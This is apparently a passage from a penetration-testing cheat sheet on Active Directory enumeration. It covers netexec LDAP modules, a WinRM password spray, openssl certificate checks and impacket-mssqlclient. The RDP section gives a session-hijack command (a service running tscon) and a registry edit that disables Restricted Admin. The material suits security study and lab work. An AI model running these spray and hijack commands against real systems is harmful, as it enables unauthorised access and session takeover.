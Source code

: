 ````bash
netexec ldap <target-ip> -u <user> -p <password> --module enumdc # Enumerate Domain Controllers
netexec ldap <target-ip> -u <user> -p <password> --module user-desc # Search for users
netexec ldap <target-ip> -u <user> -p <password> --module adcs # Check for misconfigurations in ADCS
netexec ldap <target-ip> -u <user> -p <password> --module ldap-checker # Search for bindings
````

## ENUMERATING WINRM
---
### Netexec for winrm
---
````bash
netexec winrm 10.129.202.85 -u names_list.txt -p password_list.txt                     
````

## ENUMERATING RDP
---
### Session hijack

````powershell
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0
````

## ENUMERATING TLS
---
TLS encrypts communication between the client and server, ensuring security. It runs on port 3269 for secure Active Directory Global Catalog queries. Enumerating it is important because it may reveal valuable information about the domain, certificates, and potential attack vectors, all while being encrypted for protection.

````bash
openssl s_client -showcerts -connect 10.10.11.202:3269 | openssl x509 -noout -text
````

## ENUMERATING MSSQL
---
MSSQL (Microsoft SQL Server):** MSSQL is a relational database management system (RDBMS) developed by Microsoft. It is widely used in enterprise environments to store and manage large amounts of data, supporting complex queries, transactions, and data integrity.

### Impacket-mssqclient
---
Impacket-mssqlclient is a tool from the Impacket suite, which provides scripts and utilities to interact with various network protocols in Windows environments. `mssqlclient` allows us to connect to an MSSQL server using the obtained credentials, enabling actions like executing SQL queries, exploiting SQL injection vulnerabilities, or accessing sensitive data stored in the database.
